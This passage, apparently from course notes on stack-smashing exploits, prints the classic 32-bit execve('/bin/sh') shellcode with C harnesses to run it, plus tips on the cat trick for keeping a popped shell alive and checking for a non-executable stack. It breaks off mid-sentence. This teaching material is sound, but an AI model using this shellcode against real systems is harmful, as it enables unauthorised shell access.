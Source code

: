 However, when are testing the shellcode using the `___asm___` capability (as
shown in the paper), the shellcode will be put into the same region of memory
as other code and the "memory" modified by the shellcode will fall in the page
as the shellcode. Because of paging---specifically, all memory in the same
page has the same permissions---this memory will also be marked as read-only.

### Testing your Shellcode

The code given in "Smashing the Stack" for testing the shell code is a bit
ugly. Here's what they do (which involves overwriting the saved return address
on the stack:

```C
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```

It is much easier to use a function pointer:

```C
void main() {
  void (*s)() = (void *)shellcode;
  s();
}
```

#### Troubleshooting

**32-bit vs. 64-bit shell code.** Be careful that you don't use 32-bit
shellcode on a 64-bit system. A good indicator is the use of `int 0x80` versus
`syscall`, the former is used primarily on 32-bit systems and the latter is
used in 64-bit systems. Note, you can use `int 0x80` in a 64-bit system but it
can be tricky to make sure that the pointer sizes are only 4 bytes--- pointers
to the stack typically require more than 4 bytes.

**Why does the popped shell exit immediately?** Sometimes when you pop a shell,
it appears like nothing happened even though your shellcode seemed to execute.
This could occur because stdin is closed, causing the shell to exit
immediately. To fix this problem, you either get some fancy shellcode (not
really that fancy) to reopen stdin, or you use the cat trick:

```bash
(python exploit.py; cat) | ./vulnerable_prog
```

**How to check if the stack is executable:** In the EpicTreasure docker image,
you can use `checksec`---look for the string "NX disabled":
